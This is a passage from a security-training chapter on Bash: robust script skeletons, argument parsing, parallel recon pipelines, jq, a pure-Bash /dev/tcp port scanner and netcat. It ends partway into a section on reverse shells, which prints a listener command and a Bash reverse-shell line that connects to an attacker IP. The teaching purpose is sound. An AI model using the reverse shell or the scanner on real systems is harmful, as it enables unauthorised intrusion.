



**Level:** Intermediate · **Track:** Foundations · **Read time:** 170 min

This is Chapter 4 of the Programming for Security series — Notebook 5. The three Python
chapters gave you a full programming language for tool-building. This chapter steps sideways
into **Bash**, the language that is *already installed* on every Linux box you will ever
compromise, defend, or be dropped onto during an engagement. Python is what you write tools
in; Bash is what you *glue tools together* with, what you type into a reverse shell, and what
an attacker leaves behind in `~/.bash_history` and a rogue cron job.

The Linux notebook's Chapter 6 taught Bash *scripting essentials* — variables, `if`, loops,
functions. This chapter assumes that and turns it toward security automation specifically. You
will build a robust script skeleton that fails loudly instead of silently corrupting data,
parse command-line flags like a real tool, run a hundred hosts through a scan in parallel,
chain `subfinder -> httpx -> nuclei` into a one-command recon pipeline, carve JSON API responses
with `jq`, write a port scanner in **pure Bash with no external binaries**, and understand the
reverse-shell and persistence one-liners you will both use (in authorised labs) and hunt for
(as a defender). Then we flip every offensive primitive over and build the detection for it:
log-watchers, file-integrity monitors, `auditd` rules, and `shellcheck` as a safety net.

Everything offensive here is **lab-scoped and lawful**. You run these against machines you own
or are explicitly authorised to test. The reverse-shell and persistence sections exist so you
can *recognise and detect* them as much as deploy them; that dual purpose is the whole point of
the chapter.

## Who This Chapter Is For (and the Map Ahead)

You need the Linux notebook (especially Chapter 6 on Bash basics, Chapter 7 on `grep`/`sed`/`awk`,
and Chapter 8 on processes and cron) and a working idea of TCP/IP from Notebook 2 — ports, the
TCP handshake, DNS, HTTP. If `for`, `if [ ... ]`, `$(...)`, and a pipe are familiar, you are ready.
You do **not** need to be a Bash expert; we build up from the shebang line.

The map:

- **Part 1-2:** Robust script skeletons and real CLI argument parsing.
- **Part 3-4:** Arrays, safe quoting, parallelism, and text-processing pipelines for recon.
- **Part 5:** Networking straight from Bash — `/dev/tcp`, `curl`, `nc`/`ncat`, a pure-Bash scanner.
- **Part 6-7:** An end-to-end recon automation pipeline and JSON/API wrangling with `jq`.
- **Part 8:** Offensive one-liners — reverse shells, and cron/systemd persistence (lab-scoped).
- **Part 9:** Two full hands-on labs with real commands, flags, and sample output.
- **Part 10-11:** Defensive automation and a consolidated Detection & Defense Angle.
- **Part 12 + closers:** Pitfalls, Final Revision, Cheat Sheet, and topic-specific practice.



## Part 1: The Robust Script Skeleton — Fail Loud, Fail Early

The single biggest difference between a throwaway one-liner and a script you can trust in an
engagement is **error handling**. Bash's default behaviour is dangerous: it keeps executing
after a command fails, treats unset variables as empty strings, and a broken command in the
middle of a pipe is silently ignored. A recon script that keeps going after `subfinder` crashed
will happily feed an empty file into `nuclei` and report "0 vulnerabilities" — a false all-clear.
A cleanup script with an unset variable can run `rm -rf "$TMPDIR"/` as `rm -rf /`. We fix all of
this on line 2.

### 1.1 The shebang and `set` flags

```bash
#!/usr/bin/env bash
#
# recon.sh — example skeleton
set -euo pipefail
IFS=$'\n\t'
```

Every line here is load-bearing. Let's take each apart, because these four lines are the
foundation of every script in this chapter.

- `#!/usr/bin/env bash` — the **shebang**. It tells the kernel which interpreter runs this file
  when you execute `./recon.sh`. Writing `/usr/bin/env bash` instead of `/bin/bash` finds `bash`
  via `$PATH`, so the script also works on systems (BSD, macOS, Nix) where Bash lives elsewhere.
  This matters: on many systems `/bin/sh` is *dash*, not Bash, and Bash-only syntax like arrays
  and `[[ ]]` silently breaks under `sh`. Always invoke Bash explicitly.
- `set -e` (aka `set -o errexit`) — exit immediately if any command returns a non-zero status.
  No more "carry on after failure".
- `set -u` (aka `set -o nounset`) — treat expansion of an **unset variable** as an error. This is
  what turns the `rm -rf "$TMPDIR"/` landmine into a hard error instead of `rm -rf /`.
- `set -o pipefail` — a pipeline's exit status is that of the **last command to fail**, not just
  the last command. Without it, `subfinder ... | sort -u > out.txt` returns success even if
  `subfinder` segfaulted, because `sort` succeeded. With `pipefail`, the failure propagates.
- `IFS=$'\n\t'` — the **Internal Field Separator**, the characters Bash splits unquoted expansions
  on. The default is space+tab+newline, which mangles filenames and data containing spaces.
  Restricting it to newline+tab makes `for x in $list` iterate line-by-line, the sane default for
  security data (hostnames, URLs, file paths).

The `-euo pipefail` combination is often called **"unofficial Bash strict mode"** and you should
treat it as mandatory for any script that touches data you care about.

**Blue team usage:** the same strict mode makes a log-processing or IR-collection script *fail
visibly* instead of producing a truncated evidence file that looks complete. A forensic timeline
built from a pipe that silently dropped half its input is worse than no timeline.

### 1.2 Traps, cleanup, and safe temp files

`set -e` gets you loud failures; a `trap` gets you *clean* failures. A trap runs a command when
the script receives a signal or exits, so temp files and background jobs get cleaned up even on
Ctrl-C.

```bash
#!/usr/bin/env bash
set -euo pipefail
IFS=$'\n\t'

# Create a private temp dir; mktemp -d picks a unique, unpredictable name.
WORKDIR="$(mktemp -d "${TMPDIR:-/tmp}/recon.XXXXXX")"

cleanup() {
    local rc=$?
    rm -rf -- "$WORKDIR"          # remove scratch space
    exit "$rc"                    # preserve the original exit code
}
trap cleanup EXIT INT TERM
```

- `mktemp -d` creates a directory with a random suffix (`recon.a7Bx9Q`). Using a *predictable*
  path like `/tmp/recon` is a real vulnerability class — **symlink/TOCTOU attacks**, where a local
  attacker pre-creates `/tmp/recon` as a symlink to a file you then overwrite as root. `mktemp`'s
  unpredictable name and `0700` permissions defeat that. `${TMPDIR:-/tmp}` uses `$TMPDIR` if set,
  else `/tmp` — the `:-` is *parameter expansion with a default*.
- `trap cleanup EXIT INT TERM` registers `cleanup` to run on normal exit (`EXIT`), Ctrl-C (`INT`),
  or `kill` (`TERM`). The `local rc=$?` captures the exit status of whatever failed *before* `rm`
  overwrites `$?`, so we can re-raise it.
- `rm -rf -- "$WORKDIR"` — the `--` marks the end of options, so a `$WORKDIR` that somehow started
  with `-` can't be interpreted as a flag. Defensive quoting everywhere.

### 1.3 Logging helpers and strict-mode-safe patterns

Give every script consistent, timestamped, colourised output separated onto stderr so that
stdout stays clean for piping:

```bash
# Colours only when stderr is a terminal (not when redirected to a file).
if [[ -t 2 ]]; then
    C_RED=$'\e[31m'; C_GRN=$'\e[32m'; C_YEL=$'\e[33m'; C_RST=$'\e[0m'
else
    C_RED=''; C_GRN=''; C_YEL=''; C_RST=''
fi

log()  { printf '%s[*]%s %s\n' "$C_GRN" "$C_RST" "$*" >&2; }
warn() { printf '%s[!]%s %s\n' "$C_YEL" "$C_RST" "$*" >&2; }
err()  { printf '%s[x]%s %s\n' "$C_RED" "$C_RST" "$*" >&2; }
die()  { err "$*"; exit 1; }
```

- `[[ -t 2 ]]` tests whether file descriptor 2 (stderr) is attached to a terminal. When you pipe
  the script into a file or another program, colours are disabled automatically — no escape-code
  garbage in your logs.
- Sending logs to `>&2` (stderr) keeps **stdout reserved for actual data**. This is the Unix
  convention that lets `./recon.sh target.com | tee results.txt` work: results go to the file,
  progress messages still show on screen.
- `die()` is the idiom for "print an error and stop" — used constantly for input validation.

One `set -e` gotcha to internalise now: a function used in an `if` condition **disables `errexit`
inside it**, and a command whose non-zero exit you expect (like `grep` finding nothing) will kill
the script under `set -e`. Guard those with `|| true`:

```bash
count=$(grep -c "admin" users.txt || true)   # grep returns 1 on no-match; don't die
```

We now have a skeleton that fails loudly, cleans up after itself, logs cleanly, and validates
input. Everything else in this chapter slots into it.

## Part 2: Turning a Script into a Real Tool — Argument Parsing

A tool that hard-codes its target is a toy. Real tools take flags: `-d domain`, `-o outfile`,
`-t threads`, `-v` for verbose, `-h` for help. Bash gives you `getopts`, a POSIX built-in that
parses short options correctly, including bundled flags (`-vf`) and options-with-arguments.

### 2.1 `getopts` from scratch

`getopts` is not the external `getopt` binary — it is a shell built-in and it is the one you
want. You give it an **option string** and it walks `"$@"` one option at a time.

```bash
usage() {
    cat <<EOF
Usage: ${0##*/} -d DOMAIN [-o OUTDIR] [-t THREADS] [-v] [-h]

  -d DOMAIN   Target apex domain (required), e.g. example.com
  -o OUTDIR   Output directory (default: ./out)
  -t THREADS  Concurrency for scans (default: 40)
  -v          Verbose logging
  -h          Show this help and exit
EOF
}

DOMAIN=""; OUTDIR="./out"; THREADS=40; VERBOSE=0

while getopts ":d:o:t:vh" opt; do
    case "$opt" in
        d) DOMAIN="$OPTARG" ;;
        o) OUTDIR="$OPTARG" ;;
        t) THREADS="$OPTARG" ;;
        v) VERBOSE=1 ;;
        h) usage; exit 0 ;;
        :) die "Option -$OPTARG requires an argument." ;;
        \?) die "Unknown option: -$OPTARG (try -h)" ;;
    esac
done
shift $((OPTIND - 1))   # drop parsed options, leaving positional args in "$@"

[[ -n "$DOMAIN" ]] || die "Missing required -d DOMAIN. Try -h."
[[ "$THREADS" =~ ^[0-9]+$ ]] || die "-t must be a positive integer."
```

Decoding the option string `":d:o:t:vh"`:

- A leading `:` switches `getopts` into **silent error mode**, so *you* handle errors via the `:`
  and `\?` cases instead of `getopts` printing its own messages. This is what lets you print a
  clean `die` message.
- A letter followed by `:` (like `d:`) means "this option **takes an argument**", which lands in
  `$OPTARG`. `v` and `h` have no colon, so they are boolean flags.
- `$OPTIND` is the index of the next argument; `shift $((OPTIND - 1))` removes everything
  `getopts` consumed, so any trailing positional arguments (a wordlist path, say) remain in `"$@"`.
- The `usage` function uses a **heredoc** (`<<EOF ... EOF`) — the clean way to emit multi-line
  text. `${0##*/}` strips the directory from the script's own name so help shows `recon.sh`, not
  `/home/kali/tools/recon.sh`.

The input validation with `=~` (a regex match inside `[[ ]]`) is not optional. **Never feed an
unvalidated argument into a command.** If `-t "$(rm -rf ~)"` reaches an `eval` or an unquoted
expansion, you have a command-injection bug in your own tool.

### 2.2 Long options and the `--` convention

`getopts` only does short options. If you want `--domain`, either accept both by pre-processing
`"$@"`, or lean on the widely-used convention of a manual `while` loop:

```bash
while [[ $# -gt 0 ]]; do
    case "$1" in
        -d|--domain)  DOMAIN="$2"; shift 2 ;;
        -o|--output)  OUTDIR="$2"; shift 2 ;;
        --)           shift; break ;;      # everything after -- is positional
        -*)           die "Unknown flag: $1" ;;
        *)            ARGS+=("$1"); shift ;;
    esac
done
```

The `--` sentinel is a Unix-wide convention meaning "stop parsing options": `rm -- -rf` deletes a
file literally named `-rf`. Supporting it in your own tools is polite and safe.

**Red team usage:** a well-argument-parsed script is what turns a one-off exploit into a reusable
weapon you can point at any target with `-d`, drop into a loop over a scope file, or hand to a
teammate. The habit of `usage()` + validation is what separates operator-grade tooling from
copy-paste scripts that break on the client's odd hostnames.

## Part 3: Arrays, Safe Quoting, and Parallelism

Recon means running the same command against hundreds of hosts. Doing that fast — without
corrupting data on hostnames with weird characters, and without melting the target — is where
arrays, quoting, and controlled concurrency earn their keep.

### 3.1 Arrays vs. strings — and why quoting is a security control

Bash has real arrays. Use them for lists of hosts, ports, or command arguments; never build a
command by string-concatenation, which invites word-splitting bugs and injection.

```bash
ports=(21 22 80 443 3306 8080)
echo "Scanning ${#ports[@]} ports"          # ${#arr[@]} = element count
for p in "${ports[@]}"; do echo "port $p"; done

# Building a command safely as an array:
cmd=(nuclei -silent -severity critical,high -o "$OUTDIR/nuclei.txt")
"${cmd[@]}" -l "$OUTDIR/live.txt"            # expands each element as ONE word
```

The rule that prevents the majority of Bash bugs and a whole class of injection: **always quote
your expansions** — `"$var"`, `"${arr[@]}"`, `"$(cmd)"`. An unquoted `$var` containing
`; rm -rf ~` or even just a space becomes multiple words. Compare:

| Expression        | Input `a b`      | Input empty | Injection risk        |
|-------------------|------------------|-------------|-----------------------|
| `rm $file`        | `rm a b` (2 files!) | `rm` (error) | High — word splitting |
| `rm "$file"`      | `rm "a b"` (1 file) | `rm ""`     | Low                   |
| `"${arr[@]}"`     | each elem 1 word | expands to nothing | Safe               |
| `"${arr[*]}"`     | joined by IFS[0] | one word    | Usually not what you want |

`"${arr[@]}"` (at-sign) expands to one word per element — what you almost always want.
`"${arr[*]}"` (star) joins into a single string with the first `IFS` char. Memorise the
difference; mixing them up is a classic bug.

### 3.2 Reading input safely with `while read`

The canonical, correct way to iterate lines of a file (a scope list, subdomains, a wordlist):

```bash
while IFS= read -r host; do
    [[ -z "$host" || "$host" == \#* ]] && continue   # skip blanks and comments
    printf 'checking %s\n' "$host"
done < scope.txt
```

- `IFS=` (empty, for this command only) stops leading/trailing whitespace being trimmed.
- `read -r` disables backslash interpretation, so `\t` in a hostname stays literal. **Always use
  `-r`** — plain `read` silently eats backslashes.
- Redirecting `< scope.txt` (rather than `cat scope.txt |`) avoids a subshell, so variables set
  in the loop survive after it.

### 3.3 Parallelism: `xargs -P`, `&`/`wait`, and GNU `parallel`

Scanning 500 hosts one at a time is unusably slow. Three ways to parallelise, in increasing power:

**(a) `xargs -P` — the always-available workhorse.** `xargs` reads items and builds command
lines; `-P N` runs `N` of them at once.

```bash
# Probe 40 hosts concurrently for a live web server:
cat subdomains.txt | xargs -P 40 -I{} sh -c \
  'curl -s -o /dev/null -w "%{http_code} {}\n" --max-time 5 "http://{}"' \
  | grep -vE '^000' | sort -u > live.txt
```

- `-P 40` = 40 parallel processes. `-I{}` sets `{}` as the placeholder for each input item.
- `sh -c '...'` wraps a small pipeline per host. `curl -w "%{http_code}"` prints just the status
  code; `--max-time 5` caps each request at 5s so one dead host can't stall the sweep.
- `grep -vE '^000'` drops connection failures (curl reports `000`).

**(b) `&` + `wait` with a concurrency gate.** For finer control, background jobs manually and
throttle with a counter so you never exceed `THREADS`:

```bash
run_job() { curl -s --max-time 5 "http://$1" >/dev/null && echo "$1 up"; }

n=0
while IFS= read -r host; do
    run_job "$host" &
    (( ++n % THREADS == 0 )) && wait      # every THREADS jobs, block until they finish
done < subdomains.txt
wait                                       # reap the final batch
```

**(c) GNU `parallel` — the specialist.** Not installed by default; `sudo apt install parallel`.
It handles job queues, retries, progress bars, and multi-host distribution.

```bash
parallel -j 40 --bar --timeout 8 \
  'httpx -silent -status-code -title -u {}' :::: subdomains.txt > live.txt
```

- `-j 40` jobs, `--bar` progress bar, `--timeout 8` per-job kill switch, `::::` reads args from a
  file (`:::` reads them from the command line).

| Tool         | Installed by default | Best for                          | Throttle flag |
|--------------|----------------------|-----------------------------------|---------------|
| `xargs -P`   | Yes (coreutils)      | Simple fan-out over a list        | `-P N`        |
| `& + wait`   | Yes (shell built-in) | Custom logic per job, gating      | manual counter|
| GNU `parallel` | No (`apt install`) | Retries, progress, remote nodes   | `-j N`        |

**Be a good citizen (and stay stealthy):** unbounded concurrency is both a DoS against the target
and a screaming-loud signal to their IDS. On authorised engagements, cap concurrency and add
`--max-time`; a slow, capped sweep looks far less like an attack than 500 simultaneous SYNs.

## Part 4: Text-Processing Pipelines for Recon

Every security tool spits out text, and the value is in *combining and filtering* those streams.
Chapter 7 of the Linux notebook taught `grep`, `sed`, and `awk` in depth; here we apply them to
real tool output. The mental model is a Unix pipeline: each stage transforms a text stream.

### 4.1 The recon carving toolkit

Suppose `subfinder` gave you `subs.txt` and you want a sorted, deduplicated list of unique
second-level parent domains:

```bash
awk -F. '{print $(NF-1)"."$NF}' subs.txt | sort -u
```

- `awk -F.` sets the field separator to a dot; `$NF` is the last field, `$(NF-1)` the one before
  — so `api.dev.example.com` yields `example.com`.

Extracting all IPv4 addresses from a messy log or scan output:

```bash
grep -oE '([0-9]{1,3}\.){3}[0-9]{1,3}' scan.log | sort -u -t. -k1,1n -k2,2n
```

- `grep -o` prints only the matched portion, `-E` enables extended regex. `sort -t. -k1,1n` sorts
  numerically by octet so IPs come out in true network order, not lexical order (where `10` sorts
  before `9`).

Counting and ranking — "top 10 talkers" from an access log's client-IP column:

```bash
awk '{print $1}' access.log | sort | uniq -c | sort -rn | head -10
```

This `sort | uniq -c | sort -rn` idiom — count occurrences, rank descending — is the single most
useful log-analysis pattern you will ever memorise. **Blue team usage:** point it at a web log to
find the IP hammering `/wp-login.php`, or at `awk '{print $7}'` to find the most-requested URL
during an attack window.

### 4.2 `sed` for surgical edits and `tr` for character surgery

```bash
# Strip http/https scheme and any trailing slash to normalise URLs to bare hosts:
sed -E 's~^https?://~~; s~/.*$~~' urls.txt | sort -u

# Turn a comma-separated Shodan export into one host per line:
tr ',' '\n' < shodan_hosts.csv | sed '/^$/d'
```

- `sed -E 's~PATTERN~REPL~'` uses `~` as the delimiter so slashes in URLs don't need escaping —
  a readability trick worth adopting. The two commands are separated by `;`. `s~/.*$~~` deletes
  everything from the first slash onward (the path).
- `tr ',' '\n'` translates commas to newlines; `sed '/^$/d'` deletes empty lines.

### 4.3 Putting it together — a diffing wrapper for monitoring

A recurring recon task is "what changed since last time?" — new subdomains, new open ports, a new
JS file. `comm` and `diff` make this trivial and this pattern powers continuous bug-bounty recon:

```bash
subfinder -silent -d "$DOMAIN" | sort -u > new.txt
if [[ -f old.txt ]]; then
    comm -13 old.txt new.txt > added.txt      # lines only in new.txt = newly discovered
    [[ -s added.txt ]] && log "New subdomains:" && cat added.txt
fi
mv new.txt old.txt
```

- `comm -13 a b` prints lines **unique to file b** (suppresses columns 1 and 3: lines only-in-a
  and lines-in-both). Both inputs **must be sorted** for `comm` to work.
- `[[ -s added.txt ]]` is true only if the file is non-empty — so you alert only on real changes.
  This exact loop, on a cron timer piping `added.txt` to a Slack/Discord webhook, is how
  bug-bounty hunters get first-mover advantage on a target's new attack surface.



## Part 5: Networking Straight From Bash

Bash can speak to the network with **no external tools at all**, using a feature called
`/dev/tcp`. This matters enormously in post-exploitation: you land on a stripped-down container
with no `nc`, no `curl`, no `python` — but if it has Bash, it has a network client.

### 5.1 The `/dev/tcp` pseudo-device

`/dev/tcp/HOST/PORT` is not a real file; it is a Bash-internal virtual path. Redirecting to it
opens a TCP connection.

```bash
# Test whether port 22 is open on a host, using nothing but Bash:
if (exec 3<>/dev/tcp/192.168.56.10/22) 2>/dev/null; then
    echo "22/tcp open"
else
    echo "22/tcp closed/filtered"
fi
```

- `exec 3<>/dev/tcp/HOST/PORT` opens **file descriptor 3** for read-write on that socket. If the
  connection is refused or times out, the redirect fails and the `if` takes the `else` branch.
- Wrapping in `( ... )` runs it in a subshell so fd 3 is closed automatically.

Grabbing an HTTP banner by hand — this *is* what `curl` does under the hood:

```bash
exec 3<>/dev/tcp/example.com/80
printf 'GET / HTTP/1.1\r\nHost: example.com\r\nConnection: close\r\n\r\n' >&3
cat <&3
exec 3<&-; exec 3>&-        # close the descriptor
```

- We write the raw HTTP request to `>&3` (the socket) and read the response with `cat <&3`. Note
  the literal `\r\n` line endings — HTTP requires CRLF, and getting this wrong is a common bug.

### 5.2 A pure-Bash port scanner

Combine `/dev/tcp` with a loop and a timeout and you have a working scanner that runs on a box
with nothing else installed:

```bash
#!/usr/bin/env bash
set -uo pipefail
host="${1:?usage: portscan.sh HOST [START END]}"
start="${2:-1}"; end="${3:-1024}"

for ((port = start; port <= end; port++)); do
    # timeout kills the connection attempt after 1s so filtered ports don't hang the loop
    if timeout 1 bash -c "exec 3<>/dev/tcp/$host/$port" 2>/dev/null; then
        printf '%5d/tcp open\n' "$port"
    fi
done
```

- `"${1:?message}"` is parameter expansion that **exits with `message` if `$1` is unset** — instant
  required-argument handling.
- `"${2:-1}"` supplies a default of `1` if no start port is given.
- `timeout 1 bash -c "..."` runs the connect in a child Bash with a 1-second hard limit. Filtered
  ports (silently dropped by a firewall) otherwise hang for the full TCP timeout (~2 min).
- `for (( ... ))` is C-style arithmetic iteration.

This is slow (one connection at a time), but it is *invisible to file-based detection* and needs
zero dependencies. **Red team usage:** on a pivot host with no tooling, this scans the internal
network. Speed it up by fanning out with the `& + wait` gate from Part 3.

### 5.3 `nc`/`ncat` — the network Swiss army knife (taught from scratch)

**What it is:** `netcat` (`nc`) reads and writes raw TCP/UDP. `ncat` is the modern Nmap-project
rewrite with SSL and access control. It is the most flexible network debugging tool in existence,
and — because it can bind a shell to a socket — a classic dual-use tool.

**Install on Kali:** `nc` ships preinstalled; `ncat` comes with `sudo apt install nmap`.

Core uses:

```bash
nc -lvnp 4444                      # LISTEN on 4444 (a catcher for reverse shells)
nc target 80 < request.txt         # send a raw HTTP request from a file
nc -zv target 20-25                # zero-I/O port scan of a small range
ncat --ssl target 443              # TLS-wrapped connection (talk to HTTPS by hand)
```

- `-l` listen, `-v` verbose, `-n` no DNS (faster, quieter), `-p 4444` port. `-z` = zero-I/O scan
  mode (just check if the port answers). We use `nc -lvnp` constantly in Part 8 as the *catcher*
  for reverse shells.

| Flag        | Meaning                                | Typical use                  |
|-------------|----------------------------------------|------------------------------|
| `-l`        | Listen mode                            | Catch a reverse shell        |
| `-v`        | Verbose (connection info to stderr)    | See who connected            |
| `-n`        | No DNS resolution                      | Speed, avoid lookups in logs |
| `-p PORT`   | Local port to bind                     | Fixed listener port          |
| `-z`        | Zero-I/O (scan) mode                   | Quick port check             |
| `-e PROG`   | Execute program on connect (GNU nc)    | Bind/reverse shell (dual-use)|
| `--ssl`     | TLS wrapper (ncat)                     | Talk to HTTPS services raw   |

## Part 6: Building an End-to-End Recon Pipeline

Now we assemble the pieces into the tool that most working bug-bounty hunters and red-teamers
actually run: a one-command pipeline that enumerates subdomains, probes which are live, and scans
the live ones for known issues. The value of Bash here is **glue** — chaining best-of-breed tools
so the output of one is the input of the next.

### 6.1 The tools (taught from scratch)

- **`subfinder`** (ProjectDiscovery) — passive subdomain enumeration from dozens of sources (cert
  transparency, DNS aggregators). Install: `go install github.com/projectdiscovery/subfinder/v2/cmd/subfinder@latest`. Core use: `subfinder -silent -d example.com`.
- **`httpx`** (ProjectDiscovery) — fast HTTP prober: takes hostnames, tells you which answer on
  80/443, their status code, title, tech stack. Install via the same `go install` pattern. Core
  use: `httpx -silent -status-code -title -tech-detect`.
- **`nuclei`** (ProjectDiscovery) — template-based vulnerability scanner; thousands of community
  YAML templates for CVEs, misconfigs, exposures. Install the same way, then `nuclei -update-templates`.
  Core use: `nuclei -l live.txt -severity critical,high`.

These three are the de-facto recon stack. Bash's job is to wire them together with sane defaults,
output directories, and error handling — the skeleton from Parts 1–2.



### 6.2 The pipeline script

```bash
#!/usr/bin/env bash
set -euo pipefail
IFS=$'\n\t'

DOMAIN=""; OUTDIR="./out"; THREADS=40
while getopts ":d:o:t:h" opt; do
    case "$opt" in
        d) DOMAIN="$OPTARG" ;; o) OUTDIR="$OPTARG" ;;
        t) THREADS="$OPTARG" ;; h) echo "usage: $0 -d domain [-o out] [-t threads]"; exit 0 ;;
        :) echo "-$OPTARG needs an arg" >&2; exit 1 ;; \?) echo "bad flag" >&2; exit 1 ;;
    esac
done
[[ -n "$DOMAIN" ]] || { echo "need -d" >&2; exit 1; }

# Pre-flight: verify each tool exists before we start.
for bin in subfinder httpx nuclei; do
    command -v "$bin" >/dev/null || { echo "missing dependency: $bin" >&2; exit 1; }
done

mkdir -p "$OUTDIR"
echo "[*] enumerating subdomains for $DOMAIN" >&2
subfinder -silent -d "$DOMAIN" | sort -u > "$OUTDIR/subs.txt"
echo "[*] $(wc -l < "$OUTDIR/subs.txt") subdomains found" >&2

echo "[*] probing for live hosts" >&2
httpx -silent -threads "$THREADS" -status-code -title \
      -l "$OUTDIR/subs.txt" -o "$OUTDIR/httpx.txt"
awk '{print $1}' "$OUTDIR/httpx.txt" > "$OUTDIR/live.txt"
echo "[*] $(wc -l < "$OUTDIR/live.txt") live hosts" >&2

echo "[*] scanning with nuclei (this can take a while)" >&2
nuclei -silent -l "$OUTDIR/live.txt" -severity critical,high,medium \
       -o "$OUTDIR/nuclei.txt" || true      # nuclei exits non-zero on findings; don't die

echo "[+] done. Findings: $(wc -l < "$OUTDIR/nuclei.txt" 2>/dev/null || echo 0)" >&2
```

- **`command -v "$bin"`** is the correct, portable "is this program installed?" test — better than
  `which`, which is an external binary that may not exist. The pre-flight loop fails fast with a
  clear message instead of dying halfway through.
- Each stage writes to a named file in `$OUTDIR`, so a crash is resumable and the artefacts are
  auditable — important on a real engagement where you must show your working.
- `nuclei ... || true` because ProjectDiscovery tools exit non-zero when they *find* something,
  which under `set -e` would abort the script exactly when it succeeded.

**Bug bounty angle:** wrap this in the `comm -13` diff loop from Part 4 and a cron entry, and you
have continuous monitoring — you get pinged the moment a target exposes a new subdomain or a new
`nuclei` template fires, often before other hunters notice. That first-mover speed is where a lot
of bounty payouts actually come from.

## Part 7: JSON and APIs from Bash with `jq`

Modern recon lives on JSON APIs — Shodan, crt.sh, VirusTotal, HackerOne, GitHub. Bash cannot
parse JSON safely on its own (regex-ing JSON is a bug generator), so we use `jq`.

**What `jq` is (from scratch):** a command-line JSON processor — a `sed`/`awk` for JSON. You give
it a *filter* expression and it walks the document. Install: `sudo apt install jq`.

### 7.1 `jq` core filters

```bash
echo '{"host":"api.example.com","ports":[80,443],"tls":true}' | jq '.host'
# "api.example.com"

# Certificate transparency: pull every unique subdomain crt.sh knows for a domain:
curl -s "https://crt.sh/?q=%25.example.com&output=json" \
  | jq -r '.[].name_value' \
  | sed 's/\*\.//g' | sort -u
```

- `.host` selects a key. `.[]` iterates array elements. `.[].name_value` iterates an array of
  objects and pulls one field from each.
- `-r` (**raw output**) strips the JSON quotes so the result pipes cleanly into `sort`/`grep`
  instead of coming out as `"quoted"` strings. Almost always what you want when feeding a pipeline.

### 7.2 Building requests and reading responses

Query the Shodan host API and extract open ports and product banners:

```bash
API="$SHODAN_API_KEY"                         # never hard-code secrets; read from env
ip="1.1.1.1"
curl -s "https://api.shodan.io/shodan/host/${ip}?key=${API}" \
  | jq -r '.data[] | "\(.port)/\(.transport)\t\(.product // "unknown")"'
```

- `\(.port)` is **string interpolation** inside a jq string. `.product // "unknown"` uses jq's
  `//` *alternative operator* — "product, or the string unknown if it's null/absent". This defensive
  default stops missing fields breaking your output.
- The API key comes from an environment variable (`$SHODAN_API_KEY`), **never** a literal in the
  script. Hard-coded keys leak into `git` history and process listings (`ps` shows the full command
  line — so a key on the command line is visible to every user on the box).

| jq filter                | Meaning                                         |
|--------------------------|-------------------------------------------------|
| `.foo`                   | Value of key `foo`                              |
| `.[]`                    | Iterate array / object values                   |
| `.foo[1]`                | Second element of array at `foo`                |
| `.foo // "default"`      | Value, or default if null/missing               |
| `select(.port==443)`     | Keep only items matching a condition            |
| `map(.name)`             | Transform each array element                    |
| `-r`                     | Raw output (no quotes)                          |
| `@csv`, `@tsv`           | Format arrays as CSV/TSV rows                   |

### 7.3 A real filter: parse a `nuclei` JSONL report into a triage table

`nuclei -json` emits one JSON object per line (JSONL). Turn it into a ranked, tab-separated triage
list a human can read:

```bash
nuclei -silent -json -l live.txt \
  | jq -r '[.info.severity, .["template-id"], .host] | @tsv' \
  | sort   # groups by severity so critical/high float together
```

- `[a, b, c] | @tsv` builds an array and formats it as a tab-separated row — clean columns without
  fragile `awk` field-counting. `.["template-id"]` uses bracket syntax because the key has a hyphen
  (`.template-id` would be parsed as subtraction).

**Blue team usage:** the same `jq` skills parse `auditd`, Suricata `eve.json`, Zeek, and cloud
(CloudTrail) logs — all JSON. `jq 'select(.eventName=="ConsoleLogin" and .errorMessage)'` over
CloudTrail surfaces failed console logins. JSON-carving is a genuinely cross-cutting skill.

## Part 8: Offensive One-Liners — Reverse Shells and Persistence (Lab-Scoped)

This part covers the Bash primitives attackers use after gaining code execution. You study them to
**use them in authorised labs and, just as importantly, to recognise and detect them** — Part 10
and 11 build the detection for every technique shown here. Everything below is for machines you own
or are explicitly authorised to test. Deploying these on systems you do not control is a crime.

### 8.1 The Bash reverse shell

A **reverse shell** makes the *target* connect out to *your* listener, which sidesteps inbound
firewall rules. You start a catcher, then trigger the payload on the target.

```bash
# On the attacker box — the catcher (from Part 5):
nc -lvnp 4444

# On the target (via RCE, a web shell, etc.) — the classic Bash reverse shell:
bash -i >& /dev/tcp/10.10.14.7/4444 0>&1
```

Decoding the payload, because understanding each redirection is what lets you detect it:

- `bash -i` — start an **interactive** Bash.
- `>& /dev/tcp/10.10.14.7/4444` — redirect both stdout and stderr to a TCP socket to the attacker
  (reusing the `/dev/tcp` device from Part 5).
